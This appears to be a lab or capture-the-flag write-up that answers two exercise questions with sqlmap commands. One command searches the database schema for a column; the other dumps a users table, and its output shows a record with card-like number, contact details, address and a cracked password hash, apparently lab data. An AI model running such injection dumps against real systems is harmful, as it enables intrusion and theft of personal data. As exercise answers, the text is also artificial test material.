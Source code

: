 We can do the following command:

```
python3 sqlmap.py -r Case1.txt --threads 10 --search -C style --batch
```

We get the following output:

```
Database: information_schema
Table: ROUTINES
[1 column]
+-----------------+------------+
| Column | Type |
+-----------------+------------+
| PARAMETER_STYLE | varchar(8) |
+-----------------+------------+
```

Answer is `PARAMETER_STYLE`


## Second
---

```
python3 sqlmap.py -r Case1.txt --threads 10 --dump -D testdb -T users --batch | grep "Kimberly"
```

We get the following output:

```
| 6 | 5143241665092174 | KimberlyMWright@gmail.com | 440-232-3739 | Kimberly Wright | 3136 Ralph Drive | June 18 1972 | d642ff0feca378666a8727947482f1a4702deba0 (Enizoom1609) | Electrologist 
```

Answer is `Enizoom1609`
